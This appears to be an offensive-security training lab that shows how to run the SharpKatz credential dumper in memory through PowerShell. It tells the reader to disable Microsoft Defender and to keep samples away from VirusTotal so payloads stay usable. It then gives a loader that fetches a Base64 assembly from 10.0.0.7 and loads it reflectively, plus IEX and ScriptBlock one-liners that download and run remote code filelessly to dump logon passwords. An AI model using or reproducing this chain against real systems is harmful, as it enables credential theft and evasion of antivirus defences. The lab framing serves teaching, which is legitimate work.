 <style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# Lab - PS Loader

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

In this lab we'll be showing how powershell can load assemblies in memory and execute them, we'll also demonstrate how  AMSI catches this, how we bypass this and how we make this attack completely fileless (memory only)

# 0. Turn Microsoft Defender OFF !!! 

Check if Defender is turned `OFF` by by running the av_check.ps1 script:

Open a powershell prompt:

```powershell
cd \thev\labs\powershell
.\av_check.ps1
```

![image](./images/ps_defsettings.jpg)

>**IMPORTANT**: Make sure Real-Time Protection is `disabled` (AMSI Scanning can by enable, it won't do anything if Real-Time Protection is disabled) - if this is not the case just run the following script, it will configure the right settings.

```powershell
cd \thev\labs\powershell
.\av_disable.ps1
```

The output should be like this :

![image](./images/ps_avdisabled.jpg)

# 1. SharpKatz download and compile
```powershell
cd \THEV\Labs\PSLoader
git clone https://github.com/b4rtik/SharpKatz.git
```

Open the sln file with Visual Studio and build the project

Copy the sharpkatz.exe file to C:\THEV\LABS\PSLoader

```powershell
cp C:\THEV\Labs\PSLoader\SharpKatz\SharpKatz\bin\x64\Release\SharpKatz.exe C:\THEV\LABS\PSLoader
```

# 2. BASE64 Encode SharpKatz.exe

```powershell
cd \THEV\Labs\PSLoader
.\b64encoder.ps1
```

![image](./images/lab_psload_sharp_b64.jpg)

# 3. SharpKatz Remote Powershell Loader

```powershell
try {
    $url = "http://10.0.0.7:9090/sharpkatz.b64"
    $base64Assembly = (Invoke-WebRequest -Uri $url -UseBasicParsing).Content
    if ($base64Assembly -is [byte[]]) { $base64Assembly = [Text.Encoding]::UTF8.GetString($base64Assembly) }
    [Reflection.Assembly]::Load([Convert]::FromBase64String($base64Assembly)) | Out-Null
    $arguments = @("--Command") +$args 
    [SharpKatz.Program]::Main($arguments)
} catch {
    Write-Error "Error: $($_.Exception.Message)"
    if ($_.Exception.InnerException) { Write-Error "Inner Exception: $($_.Exception.InnerException.Message)" }
}
```

# 4. IEX

> IEX is the alias for the PowerShell cmdlet Invoke-Expression. It takes a string containing PowerShell code and executes it as if it were typed directly into the PowerShell session. Baiscally IEX allows dynamic execution of remote code.

Now, let's host our powershell script and sharpkatz (b64 encoded) on a remote server, and execute it without touching disk - completely in memory. We use IEX (Invoke-Expression) for this.

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
```

Since we wrote our script to accept arguments, we need to adapt our oneliner a bit, Since Invoke-Expression (IEX) doesn’t natively support passing arguments to the script it executes, you can wrap the downloaded script content in a `script block` and invoke it with arguments using the `call operator (&)`. This approach avoids writing the script to disk and ensures `"logonpasswords"` is passed correctly to the script’s param block.

```powershell
$scriptContent = (New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
$scriptBlock = [ScriptBlock]::Create($scriptContent)
& $scriptBlock logonpasswords
```

> *Explanation*
> 1. Download Script Content: (New-Object Net.WebClient).DownloadString fetches the script content as a string from the HTTP server.
> 2. Create Script Block: [ScriptBlock]::Create($scriptContent) converts the string into a PowerShell script block, which supports argument passing.
> 3. Invoke with Arguments: & $scriptBlock `logonpasswords` executes the script block, passing msv as a positional argument. This populates $UserArguments in the script’s param block, resulting in $arguments being @("--command", "logonpasswords").
> 4. No Disk Write: The script is kept in memory as $scriptContent and never saved to disk.

We can convert this back into a one-liner like this, notice the "&" at the beginning!

```powershell
& ([ScriptBlock]::Create((New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1"))) logonpasswords
```